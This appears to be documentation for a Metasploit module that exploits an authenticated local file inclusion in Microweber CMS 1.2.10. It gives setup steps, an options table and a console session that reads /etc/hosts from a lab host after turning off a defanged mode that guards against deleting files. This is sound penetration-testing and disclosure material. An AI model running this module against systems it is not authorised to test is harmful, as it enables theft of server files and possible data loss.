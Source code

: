## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking if it's Microweber CMS.`
- [ ] Verify that you see `Microweber CMS has been detected.`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber version 1.2.10`
- [ ] Verify that you see `The target appears to be vulnerable.`
- [ ] Verify that you see `Trying to log in.`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf6 auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DEFANGED_MODE    true             yes       Run in defanged mode
   LOCAL_FILE_PATH                   yes       The path of the local file.
   PASSWORD                          yes       The admin's password for Microweber
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   USERNAME                          yes       The admin's username for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf6 auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf6 auxiliary(gather/microweber_lfi) > set username admin
username => admin
msf6 auxiliary(gather/microweber_lfi) > set password admin
password => admin
msf6 auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/hosts
msf6 auxiliary(gather/microweber_lfi) > set rhosts 192.168.188.132
rhosts => 192.168.188.132
msf6 auxiliary(gather/microweber_lfi) > check

[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[*] 192.168.188.132:80 - The target appears to be vulnerable.
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[-] Auxiliary aborted due to failure: bad-config: Triggering this vulnerability may delete the local file if the web service user has the permission.
If you want to continue, disable the DEFANGED_MODE.
=> set DEFANGED_MODE false
msf6 auxiliary(gather/microweber_lfi) > set defanged_mode false
defanged_mode => false
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[*] Trying to log in.
[+] You are logged in
[*] Uploading /etc/hosts to the backup folder.
[+] hosts was moved!
[*] Downloading hosts from the backup folder.
[*] 127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[*] Auxiliary module execution completed
```
